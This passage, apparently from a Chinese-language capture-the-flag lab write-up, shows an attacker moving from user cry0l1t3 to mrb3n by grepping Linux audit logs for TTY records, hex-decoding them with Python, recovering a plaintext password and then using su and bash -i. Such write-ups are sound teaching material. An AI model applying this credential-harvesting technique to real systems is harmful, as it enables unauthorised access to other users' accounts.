 ## **cry0l1t3 → mrb3n (Linux 审计)**

更多的枚举发现，Linux 审计文件在`/var/log/audit`目录下。

```
$ ls -la
total 24748
drwxr-x---  2 root adm       4096 Nov  9 10:11 .
drwxrwxr-x 12 root syslog    4096 Nov 11 02:37 ..
-rw-r-----  1 root adm     138988 Nov 11 05:12 audit.log
-r--r-----  1 root adm    8388813 Nov  9 10:11 audit.log.1
-r--r-----  1 root adm    8388720 Sep  4 03:45 audit.log.2
-r--r-----  1 root adm    8388617 Aug 23 21:45 audit.log.3
```

那些是当前用户`cry0l1t3`所在的`adm`组可读的。Linux 审计文件本质上是 Linux `Syscalls`的日志。日志中的一些数据是十六进制格式的。进一步努力找出以下有趣的命令:

```
$ cat audit.log.3 | grep "data"
type=TTY msg=audit(1597199290.086:83): tty pid=2517 uid=1002 auid=0 ses=1 major=4 minor=1 comm="sh" data=7375206D7262336E0A
type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A
type=TTY msg=audit(1597199304.778:89): tty pid=2526 uid=1001 auid=0 ses=1 major=4 minor=1 comm="sh" data=77686F616D690A
type=TTY msg=audit(1597199308.262:90): tty pid=2526 uid=1001 auid=0 ses=1 major=4 minor=1 comm="sh" data=657869740A
type=TTY msg=audit(1597199317.622:93): tty pid=2517 uid=1002 auid=0 ses=1 major=4 minor=1 comm="sh" data=2F62696E2F62617368202D690A
```

通过使用一个简单的 Python3 命令，我可以将十六进制转换成文本值，并找到`mrb3n`用户的密码:`mrb3n_Ac@d3my!`

```
cry0l1t3@academy:/var/log/audit$ python3 -c 'import binascii; print(binascii.a2b_hex("7375206D7262336E0A"))'
**b'su mrb3n\n'**cry0l1t3@academy:/var/log/audit$ python3 -c 'import binascii; print(binascii.a2b_hex("6D7262336E5F41634064336D79210A"))'
**b'mrb3n_Ac@d3my!\n'**cry0l1t3@academy:/var/log/audit$ python3 -c 'import binascii; print(binascii.a2b_hex("77686F616D690A"))'
b'whoami\n'cry0l1t3@academy:/var/log/audit$ python3 -c 'import binascii; print(binascii.a2b_hex("657869740A"))'
b'exit\n'
```

获得用户访问权。

```
$ su mrb3n
Password: 
$ id
uid=1001(mrb3n) gid=1001(mrb3n) groups=1001(mrb3n)
$ bash -i
mrb3n@academy:/var/log/audit$
```
